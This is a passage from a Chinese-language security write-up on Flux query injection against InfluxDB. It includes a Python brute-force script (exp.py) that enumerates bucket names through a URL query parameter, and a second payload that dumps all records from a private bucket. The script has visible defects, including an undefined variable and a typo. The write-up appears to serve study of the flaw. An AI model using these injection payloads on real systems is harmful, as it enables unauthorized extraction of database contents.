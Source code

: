 ![](assets/1706959875-d278de2e89cc39976cbbb3630da9c490.png)

可以看见返回了`privateBucket`这个bucket，这个地方可以用burp爆

exp.py:

```python
import requests
import string
url = "https://127.0.0.1:3000?query="
para1= " ") |> yield(name: "1337") buckets() |> filter(fn: (r) => r.name =~ /^{}.*/ and die(msg:r.name)) //"
s=''+string.ascii_letters
flag = sensitive_field
for i in range(0,52):
    for j in s:
        try:
            htmlLen = requests.get(url=url+para1.format(j)).text
        except:
            print(j)
        if flag in htmlLen:
            print(htmlLen,endd='')
            break
//为了让你们更加直观的看见playload，所以这里没有进行编码，所以可能在para1处会报错。
```

#### 3.5.2.2 泄露bucket及其相关数据

前面已经有bucket的名称了，所以就直接from

```js
") |> yield(name: "1337") 
 from(bucket: "privateBucket") |> range(start: 0) |> filter(fn: (r) => die(msg:r)) 
 //
```

这里就是把`filter`中的`r`也就是匹配出来的所有东西都输出出来

最终页面返回：

```js
_value: B,
_time: time,
_stop: time,
_start: time,
_measurement: string,
_field: string
```
